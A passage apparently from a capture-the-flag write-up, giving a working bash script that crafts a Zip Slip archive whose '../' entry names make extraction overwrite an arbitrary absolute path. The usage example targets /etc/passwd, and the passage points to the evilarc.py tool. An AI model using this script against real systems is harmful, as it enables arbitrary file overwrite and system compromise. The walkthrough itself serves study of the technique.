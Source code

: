     if [ "$#" -lt 3 -o "$#" -gt 4 ]; then
        usage
    fi;

    if [ ! -r $2 ]; then
        message="$2 does not exist. Please check path to file."
        usage
    fi;

    if [[ ! $3 == /* ]]; then
        message="[desired path] must be absolute, starting with /"
        usage
    fi;

    # Set variables
    outfile=$(realpath $1)
    file=$2
    path=$3

    if [ "$#" -eq 3 ]; then
        num_ups=8;
    else
        num_ups=$4
    fi;
    num_dirs=$(($num_ups - $(echo $path | tr -cd '/' | wc -c) + 1))


    base=$(mktemp -d)
    target_dir=$(dirname $path)
    current_dir=${base}${target_dir}$(yes "/a" | head -${num_dirs} | tr -d "\n")

    mkdir -p ${current_dir}
    cp ${file} ${base}${path} 
    cd ${current_dir}

    trav="$(yes '/..' | head -${num_ups} | tr -d '\n' | cut -c2- | rev)"

    zip $outfile "${trav}${path}" >/dev/null
    unzip -l $outfile
    rm -rf ${base} 



Here's how it runs:



    root@kali# ./zip_slip.sh 
    Usage: ./zip_slip.sh [out_zip] [file] [desired path] <number of ../>
      Number of ../ will be 8 if not given
      desired path must be absolute
      Ex: ./zip_slip.sh evil.zip evil_passwd /etc/passwd 5



Since I wrote that while solving, I also found this `python` version,
[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py).
